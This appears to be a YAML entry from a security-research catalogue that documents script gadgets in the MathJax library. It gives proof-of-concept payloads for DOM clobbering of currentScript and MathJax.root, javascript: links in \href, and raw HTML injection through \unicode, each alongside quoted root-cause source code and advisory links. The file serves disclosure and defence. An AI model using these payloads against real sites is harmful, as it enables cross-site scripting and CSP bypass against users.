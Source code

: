 ```yaml
---
description: MathJax is an open-source JavaScript display engine for LaTeX, MathML, and AsciiMath notation that works in all modern browsers.
github: mathjax/MathJax
gadgets:
  Latest (1):
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - name-attr
      - src-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: The [MathJax](https://github.com/mathjax/MathJax) library uses the `document.currentScript` property or the `#MathJax-script` id as a node reference to load plugins.
        code: |
         <script nonce="secret" async src="https://cdn.jsdelivr.net/npm/mathjax@3/es5/tex-mml-chtml.js"></script>
         $$\require{tex}$$

         <!-- user input -->
         <img name="currentScript" src="[current-location]/assets/xss/index.js">
    more-info: |
      **Root Cause**

      ```javascript
      t.getRoot = function() {
          var t = "//../../es5";
          if ("undefined" != typeof document) {
              var e = document.currentScript || document.getElementById("MathJax-script");
              e && (t = e.src.replace(/\/[^\/]*$/, ""))
          }
          return t
      }

      // [...]

      prefix: function(t) {
          for (var r; (r = t.name.match(/^\[([^\]]*)\]/)) && e.CONFIG.paths.hasOwnProperty(r[1]); )
              t.name = e.CONFIG.paths[r[1]] + t.name.substr(r[0].length);
          return !0
      }
      ```
    links:
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax3.md
  Latest (2):
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - any-attr
      - before-lib-load
    pocs:
      - description: By default [MathJax](https://github.com/mathjax/MathJax) doesn't sanitize links allowing to use `javascript:` URI scheme.
        code: |
          <script async src="https://cdn.jsdelivr.net/npm/mathjax@3/es5/tex-mml-chtml.js"></script>

          <!-- user input -->
          $$\href{javascript:alert(document.domain)}{CLICK}$$
    links:
      - https://docs.mathjax.org/en/latest/options/safe.html
      - https://huntr.com/bounties/125791b6-3a68-4235-8866-6bc3a52332ba
  ≤2.7.9:
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - a-tag
      - id-attr
      - name-attr
      - href-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: The [MathJax](https://github.com/mathjax/MathJax) library was using the `MathJax.root` property to load plugins. Since it was checking if the value exists before creating it, it was possible to clobber it.
        code: |
          <script nonce="secret" async src="https://cdnjs.cloudflare.com/ajax/libs/mathjax/2.7.9/MathJax.js?config=TeX-AMS_CHTML"></script>

          <!-- user input -->
          <a id="MathJax"></a><a id="MathJax" name="root" href="[current-location]/assets/xss/index.js"></a>
    links:
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax2.md
    more-info: |
      **Root Cause**

      ```javascript
      if (document.getElementById && document.childNodes && document.createElement) {
          if (!(window.MathJax && MathJax.Hub)) {
              if (window.MathJax) {
                  window.MathJax = {
                      AuthorConfig: window.MathJax
                  }
              } else {
                  window.MathJax = {}
              }
      
      // [...]

      MathJax.Hub.Startup = {
          script: "",
          queue: MathJax.Callback.Queue(),
          signal: MathJax.Callback.Signal("Startup"),
          params: {},
          Config: function() {
              this.queue.Push(["Post", this.signal, "Begin Config"]);
              if (MathJax.AuthorConfig && MathJax.AuthorConfig.root) {
                  MathJax.Ajax.config.root = MathJax.AuthorConfig.root
              }
      
      // [...]

      fileURL: function(j) {
          var i;
          while ((i = j.match(/^\[([-._a-z0-9]+)\]/i)) && b.hasOwnProperty(i[1])) {
              j = (b[i[1]] || this.config.root) + j.substr(i[1].length + 2) // Loading MathJax.AuthorConfig.root and type coercice to String
          }
          return j
      }

      // [...]

      Load: function(k, m) {
          m = a.Callback(m);
          var l;
          if (k instanceof Object) {
              for (var j in k) {
                  if (k.hasOwnProperty(j)) {
                      l = j.toUpperCase();
                      k = k[j]
                  }
              }
          } else {
              l = k.split(/\./).pop().toUpperCase()
          }
          k = this.fileURL(k);
          if (this.loading[k]) {
              this.addHook(k, m)
          } else {
              this.head = h(this.head);
              if (this.loader[l]) {
                  this.loader[l].call(this, k, m) // Calls loader['JS'] below

      // [...]

      loader: {
          JS: function(k, m) {
              var j = this.fileName(k);
              var i = document.createElement("script");
              var l = a.Callback(["loadTimeout", this, k]);
              this.loading[k] = {
                  callback: m,
                  timeout: setTimeout(l, this.timeout),
                  status: this.STATUS.OK,
                  script: i
              };
              this.loading[k].message = a.Message.File(j);
              i.onerror = l;
              i.type = "text/javascript";
              i.src = k + this.fileRev(j);
              this.head.appendChild(i)
          }
      ```
  ≤2.7.3:
    authors:
      - twitter:securitymb
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - any-attr
      - before-lib-load
    pocs:
      - description: The [MathJax](https://github.com/mathjax/MathJax) library was retuning the content of `\unicode{}` as raw.
        code: \unicode{<img src=x onerror=alert(document.domain)>}
        preview: false
    links:
      - https://github.com/mathjax/MathJax/commit/a55da396c18cafb767a26aa9ad96f6f4199852f1
      - https://blog.bentkowski.info/2018/06/xss-in-google-colaboratory-csp-bypass.html
---
```

